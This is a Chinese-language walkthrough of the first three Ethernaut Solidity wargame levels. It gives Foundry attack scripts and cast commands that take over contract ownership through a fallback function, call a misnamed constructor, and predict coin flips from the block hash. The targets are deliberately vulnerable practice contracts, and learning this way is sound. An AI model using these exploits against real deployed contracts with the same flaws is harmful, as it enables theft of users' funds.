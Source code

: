 # [The Ethernaut](https://ethernaut.openzeppelin.com)

一个非常有意思的网站，提供了一系列题目

以下内容(可能)省略：
- instance合约地址
- rpc url
- 私钥
- player地址

## Fallback

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {Fallback} from "../src/Fallback.sol";
import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
contract AttackScript is Script{
    function run() public{
        vm.startBroadcast();
        new Attack{value: 0.0000000000002 ether}().exploit();
        console.log("Attack Success");
        vm.stopBroadcast();
    }
}
contract Attack{
    Fallback public target = Fallback(payable(address()));
    constructor() payable {
        require(msg.value >= 0.000000000000002 ether);
    }
    function exploit() public{
        target.contribute{value: 0.000000000000001 ether}();
        (bool success, ) = payable(target).call{value: 0.000000000000001 ether, gas: 500000}(""); //gas要给够
        require(success, "Receive failed");
    }
}
```
但是吧，这只会让owner变成上述合约，而题目要求owner为player，即metamask里登记的账号。需要手动cast send更新owner
```sh
cast send "" "contribute()" --from "" --value 0.0000000000000011ether
cast send "" "withdraw()" --from ""
```
## Fallout

并非constructor（

```sh
cast send "" "Fal1out()" --from ""
cast send "" "collectAllocations()" --from ""
```

## Coin Flip

`block.number`是可以预测的。一个要注意的地方是，题目检查了`lastHash != blockValue`，因此两个转账之间不能太快，要给`block.number`自增的时间
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {CoinFlip} from "../src/CoinFlip.sol";
import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
contract AttackScript is Script {
    function run() public {
        vm.startBroadcast();
        new Attack().exploit();
        vm.stopBroadcast();
    }
}
contract Attack {
    CoinFlip public target = CoinFlip(address());
    uint256 public constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function exploit() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        target.flip((blockValue / FACTOR) == 1);
    }
}
```
```sh
for i in {1..10}; do
    forge script script/Attack.s.sol:AttackScript --rpc-url $ETH_RPC_URL --private-key $PRIVATE_KEY --broadcast
    sleep 15
done
```